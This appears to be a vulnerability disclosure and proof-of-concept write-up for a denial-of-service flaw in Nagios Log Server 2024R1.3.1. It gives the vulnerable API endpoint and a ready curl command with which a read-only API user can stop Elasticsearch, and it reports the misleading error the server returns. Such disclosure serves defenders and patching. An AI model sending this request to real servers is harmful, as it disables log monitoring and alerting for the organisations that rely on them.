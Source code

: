 # Remote Elasticsearch Shutdown via API in Nagios Log Server 2024R1.3.1

[▶️ PoC Demo](https://www.youtube.com/watch?v=YPK0-b9GeV8&ab_channel=SethKraft)

#### Date: 2025-04-02
#### Exploit Author: Seth Kraft
#### Vendor Homepage: https://www.nagios.com/
#### Vendor Changelog: https://www.nagios.com/changelog/#log-server
#### Software Link: https://assets.nagios.com/downloads/nagios-log-server/versions.php
#### Version: 2024R1.3.1 and below
#### Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
#### CWE: CWE-284, CWE-285
#### CVSS: 8.3 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/S:C/VC:N/VI:L/VA:H)
#### Type: Denial of Service (DoS)

## Summary
A vulnerability exists in the latest version (2024R1.3.1) of Nagios Log Server that allows a low-privileged user with read-only API access to remotely stop the Elasticsearch service via API call.

Elasticsearch is a core dependency of Nagios Log Server. If it is stopped, logs cannot be indexed, alerts cannot be generated, and historical data retrieval fails, leading to a Denial of Service (DoS) condition. 

## Details
The API endpoint `system/stop` allows any user with API access to stop the Elasticsearch service, effectively disabling log monitoring.

## Vulnerable Endpoint:
`http://<target-ip>/nagioslogserver/index.php/api/system/stop?subsystem=elasticsearch&token=<valid_token>`

## Proof of Concept (PoC)
**Step 1: Send API Request to Stop Elasticsearch Response (Incorrect Error Message)**

`curl -X POST "http://<target-ip>/nagioslogserver/index.php/api/system/stop?subsystem=elasticsearch&token=<valid_token>"`

**Response (Incorrect Error Message)**

```json
{
"status": "error",
"message": "Could not stop elasticsearch"
}
```

> Despite the misleading error message — Elasticsearch actually stops, causing Nagios Log Server to lose logging functionality.

**Step 2: Verify Elasticsearch Is Down**
![image](https://github.com/user-attachments/assets/c0a36824-4179-491a-ae98-f1186aeac9b6)
> Nagios Log Server will remain inaccessible until the Elasticsearch service is started again.

---

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---